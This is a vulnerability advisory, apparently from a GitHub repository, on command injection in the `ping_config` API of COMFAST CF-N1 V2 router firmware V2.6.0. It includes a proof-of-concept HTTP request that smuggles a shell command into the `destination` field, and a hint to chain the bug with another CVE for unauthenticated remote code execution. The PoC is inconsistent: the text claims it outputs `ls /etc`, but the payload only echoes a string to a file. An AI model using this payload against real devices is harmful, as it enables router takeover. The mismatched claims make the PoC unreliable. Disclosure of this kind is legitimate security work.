



# COMFAST CF-N1 V2 V2.6.0 Command Injection in `ping_config`

PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) in the `ping_config` API (`/usr/bin/webmgnt`, function `sub_441EC4`). Attackers can inject arbitrary commands via a user-controlled parameter involved in ping configuration, enabling unauthorized execution of system commands, sensitive information access, or full device compromise.


## Details


*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: http://www.comfast.com.cn/index.php?m=content&c=index&a=show&catid=31&id=772

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ping_config`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_441EC4` function handling the `ping_config` section. Analysis of the disassembly shows that a user-controlled parameter is unsanitized and directly used in a command construction process.

Key code flow:


1.  The function parses user input via `blobmsg_parse_0`, extracting configuration parameters (including the vulnerable parameter).

2.  The extracted parameter (`v4`) is inserted into a command string using `sprintf_0(v8, &aBinPing4C4W2ST..., v4)`, where `aBinPing4C4W2ST` likely represents a ping command template (e.g., `ping -c 4 %s`).

3.  The constructed command is executed via `system_0(v8)`, with no input sanitization to block malicious command separators.

This allows attackers to inject arbitrary commands by adding delimiters (e.g., `&&`, `;`, `|`) to the vulnerable parameter, as the input is directly concatenated into the executed system command.




## Proof of Concept (PoC)

### PoC: List `/etc` Directory Contents


```
POST /cgi-bin/mbox-config?method=SET&section=ping_config HTTP/1.1
Host: cflogin.cn
Content-Length: 76
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"destination": "127.0.0.1\"; echo  ping config >  /www-comfast/test.txt #"}
```


*   **Assumptions**: The vulnerable parameter is named `destination`.

*   **Steps**:

1.  Send the POST request using `curl`, Burp Suite, or similar tools.

2.  Access `http://cflogin.cn/test.txt` to view the contents of the `/etc` directory.

*   **Result**: The output of `ls /etc` is written to `/www-comfast/test.txt`, confirming arbitrary command execution.
*   


